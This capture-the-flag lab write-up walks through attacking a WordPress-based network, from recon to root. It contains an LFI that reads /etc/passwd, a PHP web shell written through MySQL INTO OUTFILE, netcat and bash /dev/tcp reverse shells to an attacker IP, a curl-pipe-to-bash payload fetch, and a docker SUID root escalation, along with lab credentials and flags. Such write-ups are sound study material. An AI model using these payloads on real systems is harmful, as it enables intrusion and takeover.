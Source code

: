 # Initial Recon
Scope of engagment 10.200.110.0/24 and 192.168.100.0/24
## Nmap
Enumerating public facing IP's
See which IP's are up:
```bash
nmap -n 10.200.110.0/24
```
10.200.110.33 and 10.200.110.250
```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-11 05:44 EDT
Nmap scan report for 10.200.110.33
Host is up (0.28s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap scan report for 10.200.110.250
Host is up (0.28s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh

Nmap done: 256 IP addresses (2 hosts up) scanned in 119.11 seconds
```
Saved as External-network-scan.nmap

Run scan on 10.200.110.33
```bash
nmap -sC -sV 10.200.110.33
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-11 06:18 EDT
Nmap scan report for 10.200.110.33
Host is up (0.28s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 96:c0:f1:4d:49:de:5e:ec:14:51:dc:c5:75:18:aa:94 (RSA)
|   256 53:bb:46:12:93:e1:ab:09:90:a5:ef:54:87:e8:40:44 (ECDSA)
|_  256 9f:94:30:aa:76:42:10:0c:c2:0a:ae:a6:a1:48:00:91 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-robots.txt: 21 disallowed entries (15 shown)
| /var/www/wordpress/index.php 
| /var/www/wordpress/readme.html /var/www/wordpress/wp-activate.php 
| /var/www/wordpress/wp-blog-header.php /var/www/wordpress/wp-config.php 
| /var/www/wordpress/wp-content /var/www/wordpress/wp-includes 
| /var/www/wordpress/wp-load.php /var/www/wordpress/wp-mail.php 
| /var/www/wordpress/wp-signup.php /var/www/wordpress/xmlrpc.php 
| /var/www/wordpress/license.txt /var/www/wordpress/upgrade 
|_/var/www/wordpress/wp-admin /var/www/wordpress/wp-comments-post.php
|_http-title: holo.live
|_http-generator: WordPress 5.5.3
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
2 ports open.

## Port 80 enumeration
CME is wordpress running version 5.5.3
Title of the page is holo.live
The page pulls images from www.holo.live
Scan for more subdomains.
```bash
ffuf -u http://10.200.110.33 -H "Host: FUZZ.holo.live" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -fl 157
```
3 domains:
- www
- dev
- admin
Running dir busting on all three sub domains.
www:
Nothing intresting just a wordpress install

dev:
admin.php, img.php, login.php

admin:
robots.txt
	/var/www/admin/supersecretdir/creds.txt
	the page gives a 403 error but is still there.

# Port 80 Exploitation
On the dev domain there is the img.php which can load in a file.
Checking for LFI.
```bash
curl http://dev.holo.live/img.php?file=../../../../../../../../etc/passwd
```
This returns the file.
Which means you can read out the creds.txt
```txt
I know you forget things, so I'm leaving this note for you:
admin:DBManagerLogin!
- gurag <3
```
Logging into the admin subdomain there is a dashboard.php.
Use the LFI to get the source code.
Quick grep for a parameter to check for RCE
```bash
cat dashboard.php | grep GET
```
This reveals a cmd variable.
which gives RCE.
try a reverse shell with the payload
```bash
nc -e /bin/bash 10.50.107.132 9001
```
This gives a shell on the box.
Stabilise the shell
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

User flag:
```
HOLO{175d7322f8fc53392a417ccde356c3fe}
```
# Foothold on 10.200.110.33
First thoughts are the computer name is random and it is linux. Docker? yep
find the groups on the docker instance.
```bash
cat /proc/1/cgroup
```
output:
```txt
12:blkio:/docker/b62a87548823a43de8309f7a906b15db3fe08fae6fb63e43aabb21a71c6c2592
11:devices:/docker/b62a87548823a43de8309f7a906b15db3fe08fae6fb63e43aabb21a71c6c2592
10:memory:/docker/b62a87548823a43de8309f7a906b15db3fe08fae6fb63e43aabb21a71c6c2592
9:cpuset:/docker/b62a87548823a43de8309f7a906b15db3fe08fae6fb63e43aabb21a71c6c2592
8:perf_event:/docker/b62a87548823a43de8309f7a906b15db3fe08fae6fb63e43aabb21a71c6c2592
7:cpu,cpuacct:/docker/b62a87548823a43de8309f7a906b15db3fe08fae6fb63e43aabb21a71c6c2592
6:hugetlb:/docker/b62a87548823a43de8309f7a906b15db3fe08fae6fb63e43aabb21a71c6c2592
5:pids:/docker/b62a87548823a43de8309f7a906b15db3fe08fae6fb63e43aabb21a71c6c2592
4:rdma:/
3:freezer:/docker/b62a87548823a43de8309f7a906b15db3fe08fae6fb63e43aabb21a71c6c2592
2:net_cls,net_prio:/docker/b62a87548823a43de8309f7a906b15db3fe08fae6fb63e43aabb21a71c6c2592
1:name=systemd:/docker/b62a87548823a43de8309f7a906b15db3fe08fae6fb63e43aabb21a71c6c2592
0::/system.slice/containerd.service
```

Check network config and do a ping sweep on the gatway
```bash
ifconfig
nc -zv 192.168.100.1 1-65535
```
Output:
```txt
ip-192-168-100-1.eu-west-1.compute.internal [192.168.100.1] 33060 (?) open
ip-192-168-100-1.eu-west-1.compute.internal [192.168.100.1] 8080 (http-alt) open
ip-192-168-100-1.eu-west-1.compute.internal [192.168.100.1] 3306 (mysql) open
ip-192-168-100-1.eu-west-1.compute.internal [192.168.100.1] 80 (http) open
ip-192-168-100-1.eu-west-1.compute.internal [192.168.100.1] 22 (ssh) open
```
port 8080 seems to be a second website.
3306 is a sql database.

Check for the db_connect.php file in the webserver on the docker container.
read the file.
```txt
define('DB_SRV', '192.168.100.1');
define('DB_PASSWD', "!123SecureAdminDashboard321!");
define('DB_USER', 'admin');
define('DB_NAME', 'DashboardDB');
```
connect to the database.
```bash
mysql -u admin -p -h 192.168.100.1
```

Internal sql credentials:
admin:!123SecureAdminDashboard321!
gurag:AAAA

inject a revshell into the sql database to break out of the docker container
```sql
mysql> select '<?php $cmd=$_GET["cmd"];system($cmd);?>' INTO OUTFILE '/var/www/html/shell.php';
```
```bash
curl 192.168.100.1:8080/shell.php?cmd=id
```

now to get a reverse shell on the box.
```bash
#!/bin/bash
bash -i >& /dev/tcp/10.50.107.132/9002 0>&1
```
host it an set up a listener then url enconde and pass as the cmd parameter of the webshell.
```bash
curl 'http://192.168.100.1:8080/shell.php?cmd=curl%20http%3A%2F%2F10.50.107.132%3A80%2Fshell.sh%7Cbash%20%26'
```
Now a shell on 10.200.110.33
```txt
HOLO{3792d7d80c4dcabb8a533afddf06f666}
```

Priv esc.
check for SUID bit
```
find / -perm -u=s -type f 2>/dev/null
```
docker has a SUID priv esc.
```
sudo install -m =xs $(which docker) .

./docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```
instead of mounting alpine mount the container running ubuntu.
Cracking the hash in /etc/shadow gives ssh creds
linux-admin:linuxrulez
